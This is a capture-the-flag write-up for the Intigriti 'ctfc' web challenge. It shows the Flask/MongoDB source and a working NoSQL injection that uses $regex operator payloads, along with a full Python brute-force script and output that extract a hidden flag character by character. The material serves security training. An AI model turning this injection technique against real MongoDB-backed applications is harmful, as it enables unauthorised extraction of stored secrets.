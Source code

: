 # Web

## ctfc


### Info

![](screenshots/111.png)


![](screenshots/222.png)

## solution:

After analysing the code source we can know that there is another third challenge and it's not appearing in the dashboard:

```python
def createChalls():
	db.challs.insert_one({"_id": "28c8edde3d61a0411511d3b1866f0636","challenge_name": "Crack It","category": "hash","challenge_description": "My friend sent me this random string `cc4d73605e19217bf2269a08d22d8ae2` can you identify what it is? , flag format: CTFC{<password>}","challenge_flag": "CTFC{cryptocat}","points": "500","released": "True"})
	db.challs.insert_one({"_id": "665f644e43731ff9db3d341da5c827e1","challenge_name": "MeoW sixty IV","category": "crypto","challenge_description": "hello everyoneeeeeeeee Q1RGQ3tuMHdfZzBfNF90aDNfcjM0TF9mbDRHfQ==, oops sorry my cat ran into my keyboard, and typed these random characters","challenge_flag": "CTFC{n0w_g0_4_th3_r34L_fl4G}","points": "1000","released": "True"})
	db.challs.insert_one({"_id": "38026ed22fc1a91d92b5d2ef93540f20","challenge_name": "ImPAWSIBLE","category": "web","challenge_description": "well, this challenge is not fully created yet, but we have the flag for it","challenge_flag": os.environ['CHALL_FLAG'],"points": "1500","released": "False"})

@app.route('/')
@check_login
def dashboard():
	challs = []
	for data in db.challs.find():
		del data['challenge_flag']
		challs.append(data)	
	chall_1 = challs[0]
	chall_2 = challs[1]
	return render_template('t_dashboard.html',username=session['user']['username'],chall_1=chall_1,chall_2=chall_2)
```

also from the route /submit_flag we can see how submiting works and we can see the app using mongoDB:

```python
def submit_flag():
	_id = request.json.get('_id')[-1]
	submitted_flag = request.json.get('challenge_flag')
	chall_details = db.challs.find_one(
			{
			"_id": md5(md5(str(_id).encode('utf-8')).hexdigest().encode('utf-8')).hexdigest(),
			"challenge_flag":submitted_flag
			}
	)
	if chall_details == None:
		return "wrong flag!"
	else:
		return "correct flag!"

# wait untill mongodb start then create the challs in db
sleep(10)
createChalls()
```

![](screenshots/333.png)

### NOSqli:
the first thing that comes in my mind after seeing mongoDB is trying noSQLinjection so i tried:

![](screenshots/444.png)

and yeah it worked so we are sure that it's noSQL injection.
so i tried to bruteforce the flag using `$regex` knwowing that the third challenge id is `id:3` and the flag format`INTIGRITI{`:

![](screenshots/555.png)

Now we have to write a script to automate the brute force and here the one i used:

```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

url = 'https://ctfc.ctf.intigriti.io/submit_flag'
headers = {
    'Host': 'ctfc.ctf.intigriti.io',
    'Cookie': 'session=eyJ1c2VyIjp7Il9pZCI6ImM0NGZkY2UyMDNiYzRiNjNhZjFhODQwMzI1Y2Y5NDA3IiwidXNlcm5hbWUiOiJ0ZWVzdCJ9fQ.ZV9gtA.QuLDFuq4rwWGeAdNfFV424ivlS4',
    'Content-Length': '59',
    'Sec-Ch-Ua': '"Chromium";v="103", ".Not/A)Brand";v="99"',
    'Sec-Ch-Ua-Mobile': '?0',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36',
    'Sec-Ch-Ua-Platform': '"Linux"',
    'Content-Type': 'application/json',
    'Accept': '*/*',
    'Origin': 'https://ctfc.ctf.intigriti.io',
    'Sec-Fetch-Site': 'same-origin',
    'Sec-Fetch-Mode': 'cors',
    'Sec-Fetch-Dest': 'empty',
    'Referer': 'https://ctfc.ctf.intigriti.io/',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'en-US,en;q=0.9',
}

_id="_id:3"
challenge_flag=""

while True:
    for c in "abcdefghtijklmopqrsuvwyzABCDEFGHIJKLMNOPQRSTUVYWZ0123456789_}":
            payload='{"_id":"%s", "challenge_flag": {"$regex": "^INTIGRITI{%s" }}' % (_id, challenge_flag + c)
            r = requests.post(url,headers=headers,data=payload, verify = False)
            if 'correct flag' in r.text:
                challenge_flag += c
                print("INTIGRITI{"+challenge_flag)
```
and we got it:

```bash
┌──(mo㉿ElMo)-[~/Documents/CTF/web-writeup]
└─$ python3 sol.py
INTIGRITI{h
INTIGRITI{h0
INTIGRITI{h0w
INTIGRITI{h0w_
INTIGRITI{h0w_1
INTIGRITI{h0w_1s
INTIGRITI{h0w_1s_
INTIGRITI{h0w_1s_7
INTIGRITI{h0w_1s_7h
INTIGRITI{h0w_1s_7h4
INTIGRITI{h0w_1s_7h4t
INTIGRITI{h0w_1s_7h4t_
INTIGRITI{h0w_1s_7h4t_P
INTIGRITI{h0w_1s_7h4t_PA
INTIGRITI{h0w_1s_7h4t_PAW
INTIGRITI{h0w_1s_7h4t_PAWS
INTIGRITI{h0w_1s_7h4t_PAWSI
INTIGRITI{h0w_1s_7h4t_PAWSIB
INTIGRITI{h0w_1s_7h4t_PAWSIBL
INTIGRITI{h0w_1s_7h4t_PAWSIBLE
INTIGRITI{h0w_1s_7h4t_PAWSIBLE}
```



